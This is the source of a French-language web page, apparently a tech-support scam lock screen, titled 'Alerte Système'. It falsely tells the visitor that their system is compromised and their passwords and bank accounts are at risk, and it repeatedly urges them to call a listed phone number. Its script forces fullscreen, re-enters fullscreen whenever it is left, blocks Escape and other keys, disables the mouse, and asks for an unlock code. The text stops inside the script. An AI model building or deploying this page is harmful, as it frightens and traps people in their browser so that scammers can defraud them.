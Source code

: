 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none; /* Désactive totalement le pointeur */
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: 'Courier New', Courier, monospace;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 3vw; /* Taille de police réduite */
            font-weight: bold;
        }
        .alert-number {
            font-size: 2.5vw; /* Taille de police réduite */
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 10px; /* Taille de police réduite */
            font-size: 2vw; /* Taille de police réduite */
            text-align: center;
            border: 2px solid white; /* Taille de bordure réduite */
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 1.5vw; /* Taille de police réduite */
            margin-top: 10px;
            animation: shake 0.5s;
            animation-iteration-count: 1;
        }
        @keyframes shake {
            0% { transform: translateX(0); }
            25% { transform: translateX(-5px); }
            50% { transform: translateX(5px); }
            75% { transform: translateX(-5px); }
            100% { transform: translateX(0); }
        }
        .glitch {
            position: relative;
            color: white;
            font-size: 2vw; /* Taille de police réduite */
            animation: glitch 1s infinite;
        }
        @keyframes glitch {
            0% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
            25% {
                text-shadow: -2px 2px red, 2px -2px blue;
            }
            50% {
                text-shadow: 2px -2px red, -2px 2px blue;
            }
            75% {
                text-shadow: -2px -2px red, 2px 2px blue;
            }
            100% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
        }
    </style>
</head>
<body>
    <div class="container">
    <p class="alert-number">+44 741 30 52 610</p>
        <p class="message"> 🚨 ATTENTION !<br>Appelez immédiatement :</p>
🛑 Votre système est compromis ! 🛑🔴 Ne fermez PAS cette page ! 🔴🔴 Ne redémarrez PAS votre appareil ! 🔴
            📛Toutes vos données personnelles (photos, mots de passe, comptes bancaires) risquent d’être volées à tout moment.   <br>Appelez immédiatement :</p>
        <p class="alert-number">+44 741 30 52 610</p>
        <p style="font-size: 2vw;">Entrez le code de déverrouillage :</p> <!-- Taille de police réduite -->
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message" class="glitch"></p>
    </div>
    <audio id="keypress-sound">
        <source src="https://www.soundjay.com/button/beep-07.wav" type="audio/wav">
    </audio>
    <audio id="error-sound">
        <source src="https://www.soundjay.com/button/beep-10.wav" type="audio/wav">
    </audio>
    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) {
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) {
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) {
                elem.msRequestFullscreen();
            }
        }
        openFullscreen();

        // Bloquer tous les raccourcis clavier
        document.addEventListener("keydown", function(event) {
            let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta"];
            if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver totalement la touche Échap
        window.addEventListener("keydown", function(event) {
            if (event.key === "Escape") {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver complètement la souris
        window.addEventListener("mousemove", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mousedown", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mouseup", function(event) {
            event.preventDefault();
        });
        window.addEventListener("contextmenu", function(event) {
            event.preventDefault();
        });
        window.addEventListener("wheel", function(event) {
            event.preventDefault();
        });

        // Empêcher la sortie du plein écran
        document.addEventListener("fullscreenchange", function() {
            if (!document.fullscreenElement) {
                openFullscreen();
            }
        });

        // Ajouter un son à chaque touche pressée
        let inputField = document.getElementById("codeInput");
        let errorMessage = document.getElementById("error-message");
        let sound = document.getElementById("keypress-sound");
        let errorSound = document.getElementById("error-sound");

        inputField.addEventListener("keydown", function(event) {
            if (!["Enter", "Backspace"].includes(event.key)) {
                sound.play();
            }
        });

        // Vérifier le code
        inputField.addEventListener("keyup", function(event) {
            if (event.key === "Enter") {
                if (this.value === "1234") {
                    document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 3vw;'>  Système restauré</h1>"; /* Taille de police réduite */
                } else {
                    errorMessage.innerText = "Code incorrect !";
                    errorMessage.classList.remove("glitch");
                    void errorMessage.offsetWidth; // Reset animation
                    errorMessage.classList.add("glitch");
                    errorSound.play();
                    this.value = "";
                }
            }
        });

        // Focus automatique sur le champ
        window.onload = function() {
            inputField.focus();
        };

        // Reforcer le plein écran toutes les 2 secondes
        setInterval(openFullscreen, 2000);
